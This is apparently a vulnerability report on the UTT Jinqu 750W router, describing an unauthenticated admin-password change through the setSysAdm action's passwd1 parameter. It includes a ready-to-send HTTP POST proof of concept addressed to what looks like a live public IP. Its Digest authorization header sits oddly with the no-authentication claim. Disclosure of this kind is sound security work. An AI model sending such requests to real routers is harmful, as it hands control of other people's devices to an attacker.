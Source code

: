 # Information

**Vendor of the products:**   UTT

**Vendor's website:** [UTT艾泰-专业路由器、交换机、防火墙品牌](https://utt.com.cn/)

**Reported by: **GuoHengyu(2183056014@qq.com)

**Affected products:** 进取 750W

**Affected firmware version:**  <=V5.0

**Firmware download address:** [UTT艾泰-专业路由器、交换机、防火墙品牌](https://utt.com.cn/downloadfile.php?id=2599)

# Overview

A critical authorization vulnerability exists in the Jinqu 750W router.
 An attacker can exploit the `setSysAdm` action by carefully crafting the `passwd1` parameter, allowing them to modify the administrator password without authentication or authorization.
 The vulnerability is ultimately triggered by a call to `doSystem("chpasswd.sh %s %s", "admin", Var);`, leading to unauthorized control over the router's administrative privileges.



# Vulnerability details

Here is the location where the specific function is executed

![image-20250427204357476](6/image-20250427204357476.png)





The `setSysAdm` function is registered within the `formDefineManagement` function.
 By controlling the `passwd1` field, it is possible to reach the `doSystem` call and modify the router's password.

![image-20250427205549982](6/image-20250427205549982.png)



# POC

```
POST /goform/setSysAdm HTTP/1.1
Host: 111.39.48.97:8888
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Authorization: Digest username="admin", realm="UTT", nonce="4bd7962ad83619f3192727e9180b7a18", uri="/goform/FastConfFirstLoad", algorithm=MD5, response="7b587a8b535c02071eda599da4f79e9f", opaque="5ccc069c403ebaf9f0171e9517f40e41", qop=auth, nc=00000135, cnonce="c40ffd3ddc23969a"
Connection: close
Referer: http://111.39.48.97:8888/framePage.asp
Cookie: td_cookie=2505500309; utt_bw_rdevType=; language=zhcn
Upgrade-Insecure-Requests: 1
Priority: u=4
Content-Type: application/x-www-form-urlencoded
Content-Length: 19

passwd1=admin111
```

![image-20250427213105369](6/image-20250427213105369.png)

